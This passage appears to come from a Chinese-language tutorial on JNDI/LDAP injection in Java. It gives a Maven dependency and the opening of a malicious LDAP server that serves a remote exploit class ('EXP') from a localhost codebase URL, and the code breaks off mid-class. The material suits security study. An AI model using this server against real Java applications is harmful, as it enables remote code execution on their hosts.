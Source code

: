   ```xml
  <dependency>
      <groupId>com.unboundid</groupId>
      <artifactId>unboundid-ldapsdk</artifactId>
      <version>3.1.1</version>
  </dependency>
  ```

- 启动LDAP服务，JDAP_Server.java。其中设置我们的恶意对象类为EXP，Codebase为`http://127.0.0.1:8888/#EXP`

  ```java
  import com.unboundid.ldap.listener.InMemoryDirectoryServer;
  import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
  import com.unboundid.ldap.listener.InMemoryListenerConfig;
  import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
  import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
  import com.unboundid.ldap.sdk.Entry;
  import com.unboundid.ldap.sdk.LDAPException;
  import com.unboundid.ldap.sdk.LDAPResult;
  import com.unboundid.ldap.sdk.ResultCode;
   
  import javax.net.ServerSocketFactory;
  import javax.net.SocketFactory;
  import javax.net.ssl.SSLSocketFactory;
  import java.net.InetAddress;
  import java.net.MalformedURLException;
  import java.net.URL;
   
  public class LDAP_Server {
   
      private static final String LDAP_BASE = "dc=example,dc=com";
   
      public static void main ( String[] tmp_args ) {
        	// 参数中的URL，指向恶意Java类
          String[] args=new String[]{"http://127.0.0.1:8888/#EXP"};
          int port = 9999;    // LDAP服务器监听的端口
   
          try {
            	// 配置LDAP服务器
              InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
              config.setListenerConfigs(new InMemoryListenerConfig(
                      "listen", //$NON-NLS-1$
                      InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                      port,
                      ServerSocketFactory.getDefault(),
                      SocketFactory.getDefault(),
                      (SSLSocketFactory) SSLSocketFactory.getDefault()));
   						// 添加自定义操作拦截器
              config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
              InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
              System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
              ds.startListening();
   
          }
          catch ( Exception e ) {
              e.printStackTrace();
          }
      }
   		// 自定义的LDAP操作拦截器，用于修改LDAP服务器的响应
      private static class OperationInterceptor extends InMemoryOperationInterceptor {
   
          private URL codebase;
   				// 构造函数接收恶意代码的URL
          public OperationInterceptor ( URL cb ) {
              this.codebase = cb;
  ```